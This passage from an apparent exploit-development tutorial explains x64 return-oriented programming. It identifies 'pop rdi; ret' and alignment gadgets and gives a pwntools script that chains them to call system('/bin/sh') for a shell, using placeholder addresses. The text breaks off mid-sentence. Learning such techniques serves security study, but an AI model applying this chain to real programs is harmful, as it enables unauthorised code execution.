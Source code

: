 #### **Finding Gadgets**

For our purpose, let's focus on gadgets that will allow us to set the **RDI** register (to pass the **"/bin/sh"** string as an argument to **system()**) and then call the **system()** function. We'll assume we've identified the following gadgets:

- **pop rdi; ret**: Pops the top value of the stack into **RDI** and then returns. Essential for setting our argument for **system()**.
- **ret**: A simple return, useful for stack alignment in some scenarios.

And we know the address of the **system()** function.

### **ROP Chain**

Below is an example using **pwntools** to set up and execute a ROP chain aiming to execute **system('/bin/sh')** on **x64**:

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
    ret_gadget,        # Alignment gadget, if needed
    pop_rdi_gadget,    # pop rdi; ret
    bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
    system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

In this example:
